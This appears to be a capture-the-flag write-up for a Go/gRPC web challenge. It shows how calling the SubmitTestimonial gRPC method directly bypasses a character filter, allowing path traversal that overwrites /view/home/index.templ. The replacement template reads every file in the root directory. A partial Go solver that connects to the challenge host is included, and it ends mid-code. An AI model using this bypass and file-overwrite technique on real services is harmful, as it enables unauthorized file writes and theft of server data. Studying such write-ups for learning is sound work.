 client.go file:

``` go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{ "/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

Flow to obtain the flag:
1. Path Traversal Overwrite File /view/home/index.templ
2. Access the View index.templ

Exploit by directly calling the SubmitTestimonial method via gRPC to bypass the Path Traversal filter in the SendTestimonial function. Slightly modify the index.templ file to be used for overwriting /view/home/index.templ.

The modified index.templ file will overwrite and read the flag, which is located at "/" (entrypoint.sh file):

``` go
func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```

Here is the solver:

``` go
package main

import (
	"context"
	"fmt"
	"log"
	"io/ioutil"

	"google.golang.org/grpc"
	"htbchal/pb"
)

func main() {
	testimonialData, err := ioutil.ReadFile("index.templ")
	if err != nil {
		log.Fatalf("failed to read file: %v", err)
	}
	
	conn, err := grpc.Dial("83.136.252.96:51204", grpc.WithInsecure())
	if err != nil {
		log.Fatalf("did not connect: %v", err)
	}
```